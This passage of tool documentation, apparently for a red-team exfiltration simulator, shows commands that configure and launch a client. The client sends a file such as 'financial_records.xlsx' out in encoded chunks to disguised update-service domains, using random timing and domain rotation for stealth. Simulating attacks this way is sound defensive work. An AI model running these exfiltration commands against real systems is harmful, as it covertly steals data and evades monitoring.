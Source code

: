 ```json
}
```

### Configuration Testing and Validation

#### Test Configuration Before Use
```bash
# Test a configuration with default test file
python config_generator.py --test apt_simulation.json

# Test with specific file
python config_generator.py --test stealth_research.json --file sensitive_data.txt

# Expected output:
# 🧪 Test de la configuration: APT Simulation
# 📝 Description: Simulation d'APT avec exfiltration très lente et discrète
# 📁 Fichier de test créé: temp_test_file.txt
# ✅ Test réussi!
```

#### Edit Existing Configuration
```bash
# Edit configuration interactively
python config_generator.py --edit apt_simulation.json

# Prompts for editing:
# 📝 Édition de: APT Simulation
# 💡 Appuyez sur Entrée pour garder la valeur actuelle
# Nom [APT Simulation]: APT Simulation v2
# Description [Simulation d'APT...]: Updated APT simulation with enhanced stealth
# ✅ Configuration mise à jour: test_configs/apt_simulation.json
```

### Running Configured Exfiltration Tests

#### Basic Execution
```bash
# Run with JSON configuration
cd exfiltration/client/
python run_client.py --config test_configs/apt_simulation.json

# Run with specific test file
python run_client.py --config test_configs/stealth_research.json --file custom_data.txt
```

#### Expected Execution Flow
```bash
# APT Simulation execution
python run_client.py --config test_configs/apt_simulation.json

# Output:
# 🎯 Configuration: APT Simulation
# 📊 Target Domain: update-service.local
# 📦 Chunk Size: 8, Encoding: base32
# ⏱️ Timing: random (30.0s ± 15.0s)
# 🔐 Encryption: ✅ (apt_long_term_key)
# 🗜️ Compression: ✅
# 🎲 Domain Rotation: ✅ (3 backup domains)
# 
# 📁 Processing: financial_records.xlsx
# 📤 Chunk 1/156: dGVzdA== → a7f9-update-service.local
# ⏳ Waiting 27.3s before next chunk...
# 📤 Chunk 2/156: ZGF0YQ== → b2k1-security-updates.local
# ⏳ Waiting 41.8s before next chunk...
```